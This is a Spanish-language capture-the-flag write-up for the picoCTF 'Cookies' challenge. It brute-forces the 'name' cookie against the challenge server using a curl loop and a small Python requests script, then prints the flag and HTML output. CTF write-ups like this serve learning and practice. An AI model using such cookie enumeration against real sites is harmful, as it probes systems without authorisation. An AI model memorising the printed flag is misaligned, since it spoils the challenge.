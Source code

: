 1. Ingresamos a la página
2. Cookie - Editor
3. Modificamos el valor de name. Si ingresamos un dato no valido, se genera una cookie con valor de -1. Si ingresamos un dato valido, se genera una cookie con valor de 0, dependiendo del valor de la cookie, se muestras diferentes frames en la página. Este proceso de puede automatizar
4. Validamos nuestra entrada con un dato valido o esperado
5. Abrir consola
6. Ingresar comando y modificar al valor de name en la cookie
	```
	curl http://mercury.picoctf.net:64944/check -H "Cookie: name=0"
	```
7. Usamos un for
	```
	for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep picoCTF
	```
8. Encontramos la bandera
 ```
output: <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
```



## Por burpsuite



## Exploit en Python

1. Abrimos consola en Python
	```
	nano exp.py
	```
2. Escribir programa
```python
import requests

url = "http://mercury.picoctf.net:64944/check"

for i in range(21):
        cookies = {'name':'{}'.format(i)}
        r = requests.get(url,cookies=cookies)
        if 'picoCTF' in r.text:
                print(r.text)
```
3. Ejecutamos el programa
	```
	python epx.py
	```
4. Encontramos la bandera
```html
output:
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">
```